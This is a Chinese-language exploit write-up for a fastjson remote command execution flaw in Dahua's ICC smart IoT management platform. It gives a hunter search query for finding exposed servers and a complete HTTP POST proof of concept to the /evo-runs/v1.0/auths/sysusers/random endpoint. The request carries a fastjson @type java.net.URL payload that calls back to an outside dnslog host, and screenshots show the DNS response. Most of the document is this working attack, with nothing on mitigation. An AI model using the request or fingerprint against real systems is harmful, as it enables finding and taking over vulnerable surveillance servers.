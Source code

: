 # 大华智能物联综合管理平台(ICC)random fastjson远程命令执行

# 一、漏洞简介
浙江大华技术股份有限公司，是全球领先的以视频为核心的智慧物联解决方案提供商和运营服务商，大华智能物联综合管理平台random 存在fastjson远程命令执行，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 大华智能物联综合管理平台(ICC)

# 三、资产测绘
+ hunter`web.body="*客户端会小于800*"`
+ 特征

![1698336070869-d2bec4ae-041a-43a9-981b-f3b9dad9c004.png](./img/BtmXKCbbYKEhwLpy/1698336070869-d2bec4ae-041a-43a9-981b-f3b9dad9c004-210040.png)

# 四、漏洞复现
poc：前往dnslog获取一个地址替换下列poc中的地址发起请求

```plain
POST /evo-runs/v1.0/auths/sysusers/random HTTP/2
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0)
Connection: close
Content-Length: 372
Content-Type: application/json;charset=utf-8
Accept-Encoding: gzip, deflate

{"a":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.net.URL","val":"http://spjm2r.dnslog.cn"}}""},"b":{{"@type":"java.net.URL","val":"http://spjm2r.dnslog.cn"}:"x"},"c":{{"@type":"java.net.URL","val":"http://spjm2r.dnslog.cn"}:0,"d":Set[{"@type":"java.net.URL","val":"http://spjm2r.dnslog.cn"}],"e":Set[{"@type":"java.net.URL","val":"http://spjm2r.dnslog.cn"},}
```

![1700141693694-e294200a-f4f8-40f7-a26b-f050d75799ec.png](./img/BtmXKCbbYKEhwLpy/1700141693694-e294200a-f4f8-40f7-a26b-f050d75799ec-068880.png)

dns收到响应

![1700141711840-a6f53e9e-6c4e-4e80-aad4-1919aa709b30.png](./img/BtmXKCbbYKEhwLpy/1700141711840-a6f53e9e-6c4e-4e80-aad4-1919aa709b30-104216.png)





> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ggsmd59d5g6pzrnd>